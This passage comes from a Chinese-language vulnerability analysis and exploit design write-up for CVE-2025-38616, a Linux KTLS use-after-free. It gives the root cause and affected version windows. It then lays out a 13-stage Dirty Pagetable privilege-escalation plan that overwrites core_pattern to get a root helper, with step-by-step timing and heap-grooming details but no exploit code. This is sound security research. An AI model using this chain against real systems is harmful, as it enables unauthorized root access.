| `1cface552a`（6.9）   | T4 不递减 `dataref`；T5 purge 时 `dataref = 2 != bias` | `dataref` 停在 1 而非 0             | **确定跳过**                                  | **是** |

两条都阻断，机制不同：6.3 破坏 frags 循环的输入（`nr_frags`），6.9 破坏 frags 循环的进入条件（`dataref`）。6.3 更早生效，完整链的窗口由 6.3 决定，即 2-7-1 表中 6.0.x 分支与 `v < 6.3` 的交集 `6.0 <= v < 6.3`；其余分支与 `v < 6.3` 无交集，完整链不可用。

CPE 第一行 `6.0 <= v < 6.6.103` 内部：

- `6.0 <= v < 6.3`：完整链成立。
- `6.3 <= v < 6.6.103`：`skbuff_small_head` 生效，`nr_frags` 被覆盖，T5 frags 循环不可控。
- 6.6.103 及之后的 6.6.x 版本：`6db015fc4b5d` 生效，`tls_strp_msg_hold` 不调用。

### 2-8. 总结

**CVE-2025-38616** 是 Linux 内核 KTLS 子系统中由 **TCP 接收队列所有权归属不清** 引发的 use-after-free 漏洞。TLS ULP 假定自己在接管 socket 之后独占 TCP 接收队列，但内核从未把这一假定固化为代码不变量——KTLS 安装不检查接收队列上是否已有阻塞消费者，anchor 的 `frag_list` 又只借用、不持有。两者叠加，使一个在 KTLS 安装前就进入 `tcp_recvmsg` 的 tcp reader 能在 parser 背后继续消费队列，把 `anchor->frag_list` 从有效指针变成悬垂指针。官方 PoC 沿这条悬垂链走到 `skb_to_sgvec()` 的 `BUG()`，构成内核 DoS。

本文所述 PoC 并未停在这个崩溃点，而是沿同一条悬垂消费路径把利用目标从"UAF 读"转到 `P1` 的双重释放。发送侧通过 `splice` 注入 pipe page，使 T4 与 T5 purge 对 `P1` 各执行一次 `put_page`——T4 的释放有合法持有者（`shinfo(A_clone)->frags[0]`），T5 purge 的释放没有合法持有者（`shinfo(n)->frags[0]` 来自对已释放 `A_clone` 的 UAF 读）。同一个引用被释放两次，`P1` 因此在 `pipe->tmp_page` 仍指向它的同时回到 buddy freelist，随后被 PTE 页表分配器取回，形成 pipe 与页表的重叠。

这条链的成立依赖四层结构缺失的叠加。挂载点层让 tcp reader 在 KTLS 接管后继续留在旧栈帧，为 T4 的并发消费创造条件；缓存绑定层让 `frag_list` 只借用不持有，为悬垂提供媒介；并发消费层让 tcp reader 在 parser 背后摘除并释放 `A_clone`，把悬垂从可能变为现实；早退分叉层让 T5 的 `WARN_ON` 早退不恢复 parser 状态，使悬垂 `frag_list` 被 `tls_strp_msg_hold()` 消费。四层缺一不可——任何一层被约束，悬垂窗口都不成立。其中挂载点层、并发消费层与早退分叉层构成"谁在消费队列、何时消费"的控制流前提；缓存绑定层构成"消费后果能否传导到 anchor"的数据流前提——它是四层中唯一的数据结构层缺失。

四层叠加在释放语义上表现为三层错位。`sk_buff` 结构体层不存在朴素 double-free：`A_clone` 与 T5 克隆出的 `n` 分属 `skbuff_fclone_cache` 与 `skbuff_head_cache`，释放 `n` 不会再次 `kfree` `A_clone`——这一层的"不发生"恰是后两层能独立发生而不被提前打断的前提。`skb->head` 内存层发生 double-free：`H` 在 T4 与 T5 各被 `kfree` 一次，两次都落在 CPU 0 的 `kmalloc-1k` per-CPU freelist 上；T4 之后、T5 之前在 CPU 0 上 free 32 个 dummy `B_head`，把 `H` 从 freelist 顶部推到第 33 位，使第二次 `kfree(H)` 时 `H` 不在顶部、`BUG_ON(object == fp)` 不触发，同时也屏蔽了 `H->shinfo` 被其他 CPU 0 分配者覆盖。物理页层同样发生 double-free：`P1` 在 T4 与 T5 各被 `put_page` 一次，第二次没有合法持有者。三层叠加，才把官方 PoC 的"一次 UAF 读 + `BUG()`"提升为"可复用的物理页级错位"。

完整链的可用窗口比官方 CPE 列表更窄。官方范围覆盖 6.0 到 6.17-rc1 的多个分支，但完整 Dirty Pagetable 链还叠加两条后段约束：6.3 的 `skbuff_small_head` 使 `H` 从专用 cache 分配，SLUB 在 `kfree(H)` 时写入的 freelist pointer 覆盖 `skb_shared_info` 的 `nr_frags`，T5 的 frags 循环行为不可控；6.9 的 `skb_data_unref()` 使 T4 释放 `A_clone` 时 `dataref` 停在 1 而非 0，T5 `skb_clone` 从 1 增到 2，T5 purge 时 `dataref = 2 != bias`，`atomic_sub_return` 返回非零，跳过 frags 循环。两者都阻断 `P1` 的第二次 `put_page`，完整链的窗口由更早的 6.3 决定，即 **6.0 <= v < 6.3** 的 vanilla 内核。6.3 之后漏洞仍存在（UAF 读与 `BUG()` 仍可触发），但"从 `put_page(P1)` 双重释放到 `core_pattern` 的完整提权"不再成立。

从根因层次看，四层缺失中只有缓存绑定层属于"数据结构契约缺失"——`frag_list` 是裸指针，没有引用计数，anchor 无从感知队列侧 skb 的释放；其余三层都属于"控制流层缺失"——挂载点层缺的是消费者检查，早退分叉层缺的是状态恢复，并发消费层缺的是路径互斥。三层控制流缺失是 `frag_list` 裸指针语义得以被实际触发的条件；一层数据结构缺失是三层控制流缺失得以传导到 `sk_buff` 与物理页层的媒介。上游修复 `6db015fc4b5d` 只补了早退分叉层，切断了"T5 早退后继续消费悬垂 `frag_list`"的路径，但没有触及挂载点层的消费者检查、缓存绑定层的引用计数、并发消费层的路径互斥。

上游修复处理的是四层中"最靠近触发点"的一层——它切断了悬垂 `frag_list` 被消费的路径，但没有触及悬垂的形成：挂载点层不检查已有消费者，缓存绑定层不给 `frag_list` 加引用计数，并发消费层不在 tcp reader 与 parser 之间建立互斥。修复后的版本上，tcp reader 与 parser 的并发消费仍然存在，`anchor->frag_list` 仍然可能悬垂，只是悬垂之后不再被 `tls_strp_msg_hold()` 消费。若要彻底消除这一漏洞族，需要处理挂载点层的消费者检查或缓存绑定层的引用计数——这两层被修复时，悬垂不再形成，修复的是根因而非症状。

完整 Dirty Pagetable 链窗口的上界由官方修复范围决定（6.6.103+、6.12.43+、6.15.11+、6.16.2+ 已修复），可用区间进一步被两条与 TLS 无关的 SLUB 行为收窄——6.3 的 `skbuff_small_head` 使 `nr_frags` 在 `kfree(H)` 时被覆盖，6.9 的 `skb_data_unref()` 使 `dataref` 停在 1 而非 0。两条约束都阻断 `P1` 的第二次 `put_page`，完整链的窗口由更早的 6.3 决定，即 `6.0 <= v < 6.3`。

三层控制流缺失不是"某个函数少写了一行"，而是 TLS ULP 对接收队列"独占所有权"的隐含假定从未被内核固化为代码不变量。四层中任意一层被修复，都会收窄悬垂窗口——但只有挂载点层、缓存绑定层或并发消费层被修复，才能让悬垂不再形成；早退分叉层的修复只切断悬垂的消费路径，悬垂本身仍然存在。只要"所有权未显式移交"这一结构性根因仍在，tcp reader 与 KTLS parser 的并发消费就会以新的入口形式重新出现——这也是为什么上游修复 `6db015fc4b5d` 之后，同样的悬垂消费路径在修复版本上不再触发，但悬垂窗口本身并未消失，只是被 `tls_strp_msg_load` 的早退分支暂时封住。

## 3. 利用思路（Dirty Pagetable）

### 3-1. 整体架构设计

本方案把 Dirty Pagetable 的利用拆成 13 个阶段，从环境初始化到最终 root shell，每个阶段负责一项独立工作，阶段之间通过 IPC、文件描述符、内核对象状态衔接。整体设计遵循三条原则：

**分层解耦**。环境初始化、TCP 对建立、TLS 安装、双重释放触发、PTE 重叠、信息泄漏、伪造写入、权限提升各自独立成阶段，任一阶段失败可在后续阶段前中止，不污染前序阶段的内核状态。这样设计的目的是让每个阶段只处理一类对象，阶段之间的依赖通过明确的内核对象状态表达，而不是靠隐式的时序巧合。

**最小暴露**。每个阶段只使用必要的系统调用，不引入与目标无关的接口；对内核对象的操作全部通过标准 socket / pipe / VMA 接口完成。这样设计的目的是让整条链的每一步都能用“内核本来就提供的合法语义”解释，而不需要借助任何非标准的调试通道或未公开的接口。

**可控时序**。所有跨进程的时序依赖通过 `sleep`、`poll`、`IPC` 三类手段显式同步，不依赖调度器的偶然行为；共享状态只在明确的同步点交换。这样设计的目的是让整条链的可重放性不依赖运气——每一个“谁在什么时候做什么”的问题都能在阶段内回答，而不是留给内核调度器。

13 个阶段分为四组：**准备组**（0–3）、**触发组**（4–6）、**转换组**（7–9）、**收尾组**（10–12）。四组之间有三处分界，都以“物理页级错位”为轴——触发组结束时 `P1` 回到 buddy freelist，转换组把 `P1` 从物理页变成页表页，收尾组把页表页改写落到 `core_pattern`。

整条链的参与者分为三层。**用户态进程**有三方：main 是主进程，负责所有阶段的主流程与跨进程同步；reader 是 TCP reader 子进程，在 TLS 安装前进入 `tcp_recvmsg` 并阻塞；watcher 是 watcher 子进程，接收崩溃指令后执行崩溃。**用户态资源**有两类：client 与 conn 构成主 TCP 对的两端，dummy_serv 与 dummy_cli 构成一组隔离 TCP 对的两端；pipe、AF_ALG socket、mmap 区域是跨阶段共享的内核对象句柄。**内核子系统**有四类：TLS ULP 负责 TLS record 的解析与解密，TCP 负责接收队列的维护，pipe 与 buddy 负责物理页的生命周期，mm 与 coredump 负责页表分配与崩溃后的 helper 启动。

13 个阶段的总体时序如下：准备组在 main 与内核之间建立资源；触发组让 reader、main、内核三方在 conn 上交替动作，把 `A_clone` 的释放与 `P1` 的二次释放分到 T4 与 T5 purge 两个时间点；转换组在 pipe 与 PTE 页表分配器之间建立 `P1` 的双重身份；收尾组把 `PTE[0]` 的伪造写入落到 `core_pattern`，再由 watcher 的崩溃触发 root helper。



图中触发组（阶段 4–6）的横轴最密——reader、main、内核三方在 conn 上交替动作，每一条消息都依赖前一条的时序；准备组与转换组相对稀疏，各自以 main 与内核之间的批量调用为主；收尾组以一次 watcher 崩溃触发内核的 coredump 路径，之后由内核在主进程之外独立完成 helper 启动。

### 3-2. 阶段 0：环境初始化

阶段 0 建立后续所有阶段共享的资源。四类资源各有明确用途：watcher IPC 管道用于 main 与 watcher 之间的崩溃指令交换；data pipe 承载 splice 注入的 pipe page `P1`，并在阶段 6 的 T4.5 被读空，把 `P1` 的引用转移到 `pipe->tmp_page`；reader sync pipe 用于 reader 在 drain 完成后向 main 报告；AF_ALG socket 用于固定异步 AEAD 算法 `cryptd(ccm_base(...))`，避免工作线程被内核回收。

AF_ALG 的作用需要单独说明，且只对阶段 6 的 T5 二次 `recv` 必要。T5 的 AEAD 走的是异步路径——`tls_do_decryption` 把请求提交给 cryptd workqueue，由工作线程在后台完成，`tls_decrypt_done` 在 workqueue 上下文回调。如果 cryptd 的底层算法（`ccm_base`、`ctr`、`cbcmac`）在工作线程运行期间被内核回收，异步解密就会失败，`tls_decrypt_done` 的回调路径也随之失效，本方案依赖的 `recv_end` purge 就不会发生。AF_ALG socket 的 bind 把 `cryptd(ccm_base(...))` 注册为一个可用的 crypto 实例，使底层算法在后续阶段的整个生命周期内保持可用。

阶段 5 的 T3 首次 `recv` 的 AEAD 走的是同步路径，不经过 cryptd 回调。`tls_decrypt_sg` 内部同步完成 AEAD 解密，再把明文拷贝到用户态缓冲区；`copy_to_user(ro_map)` 因 `ro_map` 为 `PROT_READ` 而失败，`tls_rx_one_record` 返回 `-EFAULT`，`tls_sw_recvmsg` 在返回值之后调用 `tls_err_abort(sk, -EBADMSG)`（硬编码参数），触发 wake #2。T3 不走 `tls_decrypt_done` 的回调路径，也不调用 `tls_strp_msg_hold`，`A_clone` 在 T3 结束时仍存活。AF_ALG 的注册对 T3 不是必需的——T3 的 AEAD 由调用线程同步完成，与 cryptd 工作线程无关。

两个时间点的 AEAD 路径差异也是后续几条函数链分叉的前提：T3 走同步 → `tls_err_abort` 由 `tls_sw_recvmsg` 直接调用；T5 走异步 → `tls_err_abort` 由 `tls_decrypt_done` 在 workqueue 上下文调用，`tls_strp_msg_hold → skb_clone(A_clone)` 也在 async 分支内被调用。两次调用都在 `recv_end` 处经 `tls_decrypt_async_wait` 与 `__skb_queue_purge` 收束——不同的是 T3 时 `async_hold` 为空（没有 `n`），T5 时 `async_hold` 里有 `n`。



阶段 0 结束时，main 已 pin 到 CPU 0，watcher 子进程已 fork 并进入等待，data pipe 已可用。AF_ALG bind 可能返回 `EEXIST`——这说明 `cryptd(ccm_base(...))` 实例已经被其他进程注册过，方案可以安全复用。方案不依赖 bind 的返回值，只依赖 cryptd 的进程上下文在阶段 6 的 T5 二次 `recv` 期间可用。

这一阶段所有管道都是空的，链上对象尚未创建：

```
data_pipe        [empty]     → 阶段 5 写入 padding / 阶段 6 的 T4.5 读出
reader_sync_pipe [empty]     → 阶段 5 由 reader 写入 IPC_CMD_READER_DONE
watcher_cmd_pipe [empty]     → 阶段 11 写入 IPC_CMD_CRASH
watcher_ack_pipe [empty]     → 阶段 11 由 watcher 写入 IPC_CMD_ACK
```

### 3-3. 阶段 1：PTE 喷射 VMA 预留

阶段 1 在内核 mm 子系统中预留一批 VMA，每个 VMA 位于独立的 PMD 槽位。这样设计的原因在于 PTE 页表的分配粒度：x86-64 四层页表中，每个 PMD 槽位管理 512 个 PTE 项，对应 2 MiB 的虚拟地址区间；每个 PMD 槽位首次被触时，内核会为它分配一个 PTE 页表页。把 `NR_SPRAY` 个 VMA 放在不同的 PMD 槽位上，使每个 VMA 都有独立的 PTE 页表分配机会——这是阶段 7 的 `alloc_pages(GFP_PGTABLE_USER)` 能覆盖足够多候选位置的前提。

预触 PGD/PUD/PMD 而不触 PTE，也是同样的考虑：中间级页表提前分配，使阶段 7 的分配请求只命中 PTE 页表这一级，不浪费在中间级的分配上。



阶段 1 结束时，`NR_SPRAY` 个 VMA 已预留，每个 VMA 位于独立的 PMD 槽位。此时页表层级的状态是：

```
VA[i] 在 mm 中的表示
   PGD  → 已分配
    └ PUD  → 已分配
       └ PMD  → 已分配
          └ PTE  → 未分配，留到阶段 7
```

### 3-4. 阶段 2：主 TCP 对建立

阶段 2 建立主 TCP 对，client 与 conn 是后续 TLS 记录与 splice 注入的两端。监听端口用 `SO_REUSEADDR`，目的是避免 `TIME_WAIT` 阻塞重跑——当一次运行在阶段 5 或之后失败时，conn 可能处于 `TIME_WAIT`；若监听端口没有 `SO_REUSEADDR`，下一次运行的 `bind()` 会被内核拒绝。这一设置不改变方案本身的时序，只为提升可重试性。



阶段 2 结束时，client 与 conn 已建立，两者都是 ESTABLISHED 状态：

```
client   state = ESTABLISHED
conn     state = ESTABLISHED
         sk_prot            = tcp_prot
         sk_data_ready      = tcp_data_ready
         sk_receive_queue   = [empty]
```

此时 conn 的 `sk_prot` 仍是 `tcp_prot`，`sk_data_ready` 仍是 `tcp_data_ready`——TLS ULP 的安装留给阶段 5，为阶段 4 的 reader fork 提供“TLS 尚未接管”的窗口。

### 3-5. 阶段 3：隔离 dummy 对建立

阶段 3 在独立监听端口上建立一组隔离 TCP 对，用于阶段 6 的 dummy `B_head` 保护。`TCP_NODELAY` 与 `TCP_CORK=0` 的组合是这一阶段的关键：默认情况下，TCP 会把多次小写入合并到同一个 skb，使 1 字节写入不产生独立的 `B_head`；`TCP_NODELAY` 关闭 Nagle 算法，`TCP_CORK=0` 关闭 cork 合并，两者结合使 1 字节写入立即产生一个独立的 skb。

隔离监听端口的目的是让 dummy 对与主对互不干扰——dummy 对的 `B_head` 是阶段 6 的 dummy 保护的载体，如果它们与主对的 skb 共享队列，drain 顺序就无法精确控制。



阶段 3 结束时，一组隔离对已就绪，每一对的状态：

```
dummy_serv[i]  state = ESTABLISHED
dummy_cli[i]   state = ESTABLISHED
               TCP_NODELAY = 1
               TCP_CORK    = 0
               sk_receive_queue = [empty]
```

`B_head` 尚未创建——它们在阶段 5 随 dummy 写入创建，在阶段 6 被 drain。

### 3-6. 阶段 4：TLS 安装前 fork TCP reader

阶段 4 是整条链的时序基础。reader 子进程在 **TLS 安装之前**进入 `tcp_recvmsg` 并阻塞，父进程随后才在 conn 上安装 TLS ULP。这样设计的原因在于 KTLS 的安装语义：`setsockopt(TCP_ULP, "tls")` 只替换 socket 的 `sk_prot` 与 `sk_data_ready`，它不会追溯性地把已经阻塞在 `tcp_recvmsg` 的进程移出——reader 停留的栈帧是旧代码，后续数据到达时仍会以 TCP 层语义处理。

如果不 fork reader 就安装 TLS，conn 上所有后续 `recv` 都会走 `tls_sw_recvmsg`，本方案依赖的“reader 留在旧栈帧”缺口就不存在。

reader 子进程不显式 pin，fork 后继承父进程的 CPU 0 亲和性。reader 与 main 都运行在 CPU 0，`skb_attempt_defer_free` 因 `alloc_cpu == 当前 CPU == 0` 走 `nodefer` 分支同步释放，T4 结束时 `H` 与 `P1` 的第一次释放已完成。reader 在 fork 后关闭继承的 listener / client / AF_ALG / dummy 文件描述符，只保留 conn 与 reader sync pipe，使父进程关闭 listener 时端口能立即释放。



fork 之后，reader 与 main 都运行在 CPU 0，conn 的接收队列在 fork 前后保持为空：

```
fork 前:  conn.sk_receive_queue = [empty]
          conn.sk_prot          = tcp_prot

fork 后:  reader  ─► CPU 0 (继承), 阻塞在 sk_wait_data (tcp_recvmsg_locked)
          main    ─► CPU 0
          conn.sk_receive_queue = [empty]     (不变)
          conn.sk_prot          = tcp_prot    (不变)
```

`sleep(1)` 的作用是保证 fork 到 reader 真正进入 `sk_wait_data` 之间存在的时间窗口。fork 返回后 reader 需要被调度、关闭继承 fd、调用 `recv` 并进入 `tcp_recvmsg_locked`，这一系列动作在大多数系统上远小于 1 秒，但极端负载下可能超过——方案在阶段 4 末尾用 `sleep(1)` 留出余量。

### 3-7. 阶段 5：安装 TLS 并填充 full_len

阶段 5 覆盖 T0 到 T4，是整条链上最密集的一段。主进程在 conn 上安装 TLS ULP，发送 TLS record 与 splice pipe page，向 dummy 对写入数据创建 `B_head`，ACK 到达时 `A` 被释放，数据到达 conn 时 anchor 绑定到 `A_clone`，reader 被唤醒并 drain 剩余数据，`P1` 的第一次 `put_page` 完成。

这个阶段的每一步都依赖前一步的时序：TLS 必须在 reader 阻塞之后安装；`write` 与 `splice` 必须在 TLS 安装之后；dummy 写入必须在首次 `recv` 之前完成；ACK 必须在 reader drain 之前到达；reader drain 必须在主进程首次 `recv` 之前完成。

dummy 写入的作用是创建 `B_head`。每个 dummy 对都启用了 `TCP_NODELAY` 与 `TCP_CORK=0`，向 dummy_cli 写入 1 字节会立即在对应 dummy_serv 的接收队列上产生一个独立的 skb head——这些 `B_head` 与 `H` 同属 `kmalloc-1k`，留在各自的接收队列中，等待阶段 6 的 T4.5 通过 drain 释放到 CPU 0 的 `kmalloc-1k` freelist。它们不参与 T0 到 T4 的悬垂形成，也不参与 `P1` 的引用计数，只作为阶段 6 的 `B_head` 储备存在。



安装 TLS 之后，conn 的入口从 `tcp_recvmsg` 切到 `tls_sw_recvmsg`，但 reader 停留在 `tcp_recvmsg_locked`：

```
安装前:  conn.sk_prot        = tcp_prot
         conn.sk_data_ready  = tcp_data_ready

安装后:  conn.sk_prot        = tls_prots[ip][BASE][SW]
         conn.sk_data_ready  = tls_data_ready
         saved_data_ready    = tcp_data_ready   (保存在 tls_sw_context_rx)
